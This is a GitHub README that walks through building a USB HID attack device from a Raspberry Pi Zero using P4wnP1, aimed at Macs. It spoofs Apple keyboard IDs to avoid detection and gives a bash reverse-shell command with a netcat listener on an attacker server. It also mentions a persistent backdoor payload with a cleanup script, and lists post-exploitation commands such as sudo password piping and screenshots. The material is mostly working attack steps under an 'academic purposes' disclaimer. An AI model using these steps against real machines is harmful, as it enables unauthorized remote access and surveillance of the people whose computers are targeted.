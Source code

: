 # Ducky Raspberry Pi Zero for Mac

There are some threads about P4wnP1 ducky not running on Mac but here is an introduction about setting up P4wnP1 so your pi zero can attack Mac.

## Demo Video

[![Brian Ducky Raspberry Pi Zero demo](https://img.youtube.com/vi/IrasdisNsJk/0.jpg)](https://www.youtube.com/watch?v=IrasdisNsJk)

## Requirements

1. Raspberry Pi Zero
2. 8G+ Micro SD card
3. USB Cable \(A-Male to Micro B\)

## Setup

1. Download Raspbian Stretch Lite [image](https://www.raspberrypi.org/downloads/raspbian/).
2. Install image on micro SD card with [Etcher](https://www.balena.io/etcher/).
3. Boot your pi and login with default username and password.

```
username: pi
password: raspberry
```

4. (Optional) Change default password for a better security.
5. Connect to network using Wi-Fi or ethernet (Adapter needed).

```shell
sudo raspi-config
```

6. Download P4wnP1 package and install it. \(If newer version is not working, I have an archived version in this repository that worked when I wrote this documentation.\)

```shell
git clone --recursive https://github.com/mame82/P4wnP1
cd P4wnP1/
./install.sh
```

7. (Important) Change scripts so it will run on Mac. This is a temporarily (03/25/19) workaround solution. "open('/dev/hidg0','rb')" is not working on Mac currently so add a timeout to line 200 in P4wnP1/boot/boot_P4wnP1.

```shell
timeout 1 python -c "with open('/dev/hidg0','rb') as f:  print ord(f.read(1))"
```

8. (Important) Use Vendor ID and Product ID from a real Apple keyboard in your payload so Mac won't be asking you to setup an unknown keyboard. See example [here](./payloads/hid_keyboard_hello_world.txt).

```
USB_VID="0x05ac"  # Vendor ID
USB_PID="0x027b"  # Product ID
```

9. Put your payload into P4wnP1/payloads/ on your pi zero. Load the payload in "P4wnP1/setup.cfg".

```
PAYLOAD=hid_keyboard_hello_world.txt  # Add to the end of the file
```

10. Shutdown the pi zero and plug it into a Mac with USB cable mentioned [above](#requirements). Use peripheral micro USB port, not the power port. No power needed here, pi zero takes power from target machine.

```shell
sudo shutdown -h now
```

11. If you want to edit the payload later, plug the pi zero into your machine, connect to Wi-Fi "P4wnP1" with password "MaMe82-P4wnP1", and ssh to it.

```shell
ssh pi@172.16.0.1
```

## Create a Reverse Shell Backdoor

1. Host Netcat server on your machine.

```shell
nc -l -p 8080 -vvv
```

2. Create a descriptor on target machine. Make sure to change the IP address and port to your server. Your server must be in the same network as target unless you have a public IP that can be accessed by target machine everywhere. \(Run the descriptor in background is recommended.\)

```shell
bash -i >& /dev/tcp/YOUR_SERVER_IP/8080 0>&1
```

3. On your server, when you see a connection being created, you then have bash access to the target machine. You would be able to see the output of bash directly on your machine with the setup above.
4. In [payloads/](./payloads/) there is a reverse shell ducky script example. Here is the clean up script if you use my example.

```shell
rm ~/app_support.sh; rm /tmp/app_support.sh; rm ~/.ssh/rsa_pub_; rm ~/Library/.hidden/app_support.sh; rm ~/Library/Python3.65; rm /usr/local/bin/Python3.65;
echo "" | crontab - && crontab -r
```

## What Now

- Rick roll prank

```shell
# One privilege of hacking Mac is we have access to applescript.
osascript -e 'set volume 7'
open https://www.youtube.com/watch?v=dQw4w9WgXcQ
```

- Accessing sudo privilege

```shell
echo "password" | sudo -S ls
```

- Take a screenshot

```shell
screencapture ~/a.jpg
```

- ~~Take a photo with Mac's webcam~~

apparently, Apple has a very strong security and privacy. It's nearly impossible to control hardware like webcam or mic without operating on the machine.

## Author and Contributors

- **[Brian Sung](https://github.com/ohbriansung)**
- Jordan Aldujaili
- Omar Sharif

## Disclaimer

This repository is for academic purposes, the use of this software is your responsibility.

## References

0. [Raspbian](https://www.raspberrypi.org/downloads/raspbian/)
1. [Ducky Script](https://github.com/hak5darren/USB-Rubber-…)
1. [P4wnP1](https://github.com/mame82/P4wnP1/)
1. [Reverse Shell with Bash](https://www.gnucitizen.org/blog/reverse-shell-with-bash/)
